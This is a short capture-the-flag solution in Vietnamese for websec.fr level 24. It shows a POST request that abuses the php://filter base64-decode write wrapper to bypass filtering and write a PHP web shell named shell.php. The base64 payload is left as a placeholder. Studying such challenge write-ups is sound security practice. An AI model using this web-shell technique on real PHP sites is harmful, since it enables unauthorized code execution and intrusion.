 # Solution

Ta dùng php wrapper để ghi php shell ở dạng base64_encode -> bypass

POST đến
`https://websec.fr/level24/index.php?p=edit&filename=php://filter/write=convert.base64-decode/resource=shell.php`
với `data=<base64_payload_encoded>`